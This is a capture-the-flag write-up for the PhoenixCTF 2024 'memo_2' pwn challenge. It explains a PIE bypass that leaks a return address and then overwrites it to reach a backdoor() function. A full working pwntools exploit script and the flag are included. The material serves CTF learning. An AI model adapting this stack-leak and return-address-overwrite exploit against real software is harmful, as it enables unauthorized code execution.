


# PhoenixCTF 2024 - `memo_2` Writeup
```
pts: 50
Author: shunt
Category: pwn
```

Challenge files: [chal_2](./chal_2)
# TL;DR
This was the second challenge of the series and the difficulty was increased by introducing [PIE](https://ir0nstone.gitbook.io/notes/types/stack/pie). So the address of instructions in the binary was not fixed now as like the [memo_1](https://github.com/peace-ranger/CTF-WriteUps/tree/main/2024/phoenixCTF/memo_1) challenge. The addresses would change in each run of the binary.

As with any PIE enabled challenge, I had to leak the address of an instruction in the binary. Then, I got the runtime address of `backdoor()` by calculating the offset between the leaked address and the address of `backdoor()` as the offset between any two instructions within the binary always remains same whether PIE is enabled or not. See [Detailed Solution](#detailed-solution) on how I leaked the address and overwrote the return address with address of `backdoor()`.

Final Exploit Script: [solve.py](#solvepy)
# Detailed Solution
## Initial Analysis
As we can see by running `checksec`, PIE is enabled this time, increasing the difficulty of the challenge.


The program code is the same as the [memo_1](https://github.com/peace-ranger/CTF-WriteUps/tree/main/2024/phoenixCTF/memo_1) so I wouldn't write that again here.
## Leak memory address
It took me quite some time to figure out how I can leak any runtime address as I couldn't see at first glance any kind of format string vuln which is the usual route in challenges where PIE is enabled. After going through the decompiled code for some time, I finally could see it. It was in the `View` option where the added memo could be viewed.


When `printf()` prints a string using the `%s` format specifier, how does it know where the string ends? Using the null terminator i.e. `\0`. So, using the buffer overflow vuln in `add` option, as we did in `memo_1`, we would overwrite the buffer `local_128` upto the byte right before the return address on stack. Then when we view the memo using option 3, `printf()` would print the buffer `local_128` until it finds a null terminator, giving us the return address after the overwritten buffer as a leak. Diagrammatically, the stack frame of `challenge()` function will look like following after we overwrite upto the return address:
```
--------------------------------
+  Runtime return address      +
--------------------------------
+                              +
+  296 garbage bytes           +
+                              +
--------------------------------
```
We can see the leak in the following image:



We need to take the last 8 bytes, strip the garbage bytes ('A' in our case) and convert the bytes to number. The return address is basically the address of the immediate next instruction in `main()` after the call to `challenge()`.


The offset between any two instructions in a binary always remains same. So from the leaked address inside main, we can calculate its offset with the address of `backdoor()`.


By subtracting `827` from the leaked address (`*main+28`), we can get the runtime address of `backdoor()`.
## Get shell
Leaking was the first and the primary hurdle of this challenge. Another hurdle was there, overwriting the return address with the calculated address of `backdoor()`. This was not straightforward like `memo_1` as we can't overflow the buffer again as the binary only allows adding a memo for just one time. And we've already done it to get the leak previously.

Now, to overwrite the return address, lets shift our attention to the last option yet to be explored i.e. the `edit` option. This option is very interesting as it gives us chance to do somewhat arbitrary write to a memory address, particularly on the stack. Lets see the code under the `edit` option.


Note here that `local_130` is the length of the input buffer that we provided during the leak phase in add memo option. As seen from the above image, we can write `len(buf) - position` bytes starting from memory location `buf + lvar2`. Note that, here the calculation of `lvar2` in the decompiled view is wrong which I found out after looking at the assembly, shown in the following image:


So, the operation is basically `lvar2 = local_138 * 264` i.e. whatever position we provide as input, the write would start at `buf + (position * 264)` address where `buf` is the starting address of the memo we added earlier.

We know the return address is `296` bytes after the start of memo. So if we give position=1 as input, the write would start at `buf + 264` i.e. 32 bytes before the return address. We'll be able to write at max `len(buf) - position` i.e. 296-1=295 bytes, no issue for us. So our payload in the edit option would be 32 bytes of garbage and then the address of `backdoor()` calculated earlier. With this payload, the return address would be overwritten and when we exit, execution will go into `backdoor()` giving us the shell.

Diagrammatically, after the overwrite through `edit` option, the stack will look like following:
```
--------------------------------
+  Address of backdoor()       +
--------------------------------
+  32 bytes of garbage         + // edit starts from here for position=1
--------------------------------
+                              +
+  buf[0..263]                 +
+                              +
--------------------------------
```


## solve.py
```python
#!/usr/bin/env python3.8

from pwn import *
import warnings
import re

# Allows you to switch between local/GDB/remote from terminal
def connect():
    if args.GDB:
        r = gdb.debug(elf.path, gdbscript=gdbscript)
    elif args.REMOTE:
        r = remote("167.172.233.80", 30217)
    else:
        r = process([elf.path])
    return r

# Specify GDB script here (breakpoints etc)
gdbscript = """
    set follow-fork-mode child
    start
    b *challenge+765
"""

# Binary filename
exe = './chal_2'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'info'
warnings.filterwarnings("ignore", category=BytesWarning, message="Text is not bytes; assuming ASCII, no guarantees.")

# =======================
# EXPLOIT AFTER THIS
# =======================
r = connect()
offset = 296
payload = b"A" * offset

# get leak
###########################
print(r.recvuntil("> "))
r.sendline("1") # Add Memo
print(r.recvuntil(": "))
r.sendline("goodluck") # pass
print(r.recvuntil(": "))
r.sendline(str(offset)) # memo size
print(r.recvuntil(": "))
r.sendline(payload) # dummy payload to leak return address
print(r.recvuntil("> "))
r.sendline("3") # View, to get leak
print(r.recvuntil(": "))
r.sendline("goodluck") # pass

resp = r.recvline().rstrip()
print(resp)
leak = resp[-8:]
leak = leak.replace(b"A", b"") # replace dummy 'A' from leak
leak = u64(leak.ljust(8, b"\x00"))
print(f"leak (main): {hex(leak)}")
BACKDOOR = leak - 827

# get SHELL
############################
offset = 32
payload = b"A" * offset
payload += p64(BACKDOOR)

print(r.recvuntil("> "))
r.sendline("2") # Edit Memo
print(r.recvuntil(": "))
r.sendline("goodluck") # pass
print(r.recvuntil(": ")) # position
r.sendline(str(1)) # memo size
print(r.recvuntil(": "))
r.sendline(payload) # payload to overwrite ret address and call backdoor()
print(r.recvuntil("> "))
r.sendline("4") # Exit, to call ret

r.interactive()
```
## Flag
`flag{290c84dd-1bcb-496b-a31d-29b20395d3b8}`
